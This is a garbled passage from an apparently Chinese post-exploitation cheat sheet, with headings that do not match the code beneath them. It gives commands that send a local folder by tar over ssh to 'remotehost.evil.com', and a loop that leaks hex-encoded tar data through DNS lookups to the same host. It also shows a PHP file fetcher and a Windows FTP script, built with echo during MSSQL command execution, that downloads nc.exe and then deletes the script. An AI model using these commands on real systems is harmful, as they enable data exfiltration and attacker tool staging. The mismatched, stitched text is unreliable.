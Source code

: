 11、net 命令

```
wget http://lemon.com/file.zip -P /root/1.zip
其中-P是保存到指定目录
```

```
tar zcf - /some/localfolder | ssh remotehost.evil.com "cd /some/path/name;tar zxpf -"
```

12、跟踪路由

```
tar zcf - localfolder | xxd -p -c 16 |  while read line; do host $line.domain.com remotehost.evil.com; done
```

**定位域控** 

1、查看域时间及域服务器的名字

```
<?php
        $data = @file("http://example.com/file");
        $lf = "local\_file";
        $fh = fopen($lf, 'w');
        fwrite($fh, $data\[0\]);
        fclose($fh);
?>
```

2、  

```
\>\*\*windows下\*\*
>ftp下载是需要交互，但是也可以这样去执行下载
open host
username
password
bin
lcd c:/
get file
bye
>将这个内容保存为1.txt， ftp -s:"c:\\1.txt"
>在mssql命令执行里面(不知道为什么单行执行一个echo,总是显示两行),个人一般喜欢这样
echo open host >> c:\\hh.txt & echo username >> c:\\hh.txt & echo password >>c:\\hh.txt & echo bin >>c:\\hh.txt & echo lcd c:\\>>c:\\hh.txt & echo get nc.exe  >>c:\\hh.txt & echo bye >>c:\\hh.txt & ftp -s:"c:\\hh.txt" & del c:\\hh.txt

>\*\*linux下\*\*

>bash文件
ftp 127.0.0.1
username
password
get file
exit

>或者使用busybox里面的tftp或者ftp
>busybox ftpget -u test -P test 127.0.0.1 file.zip
```
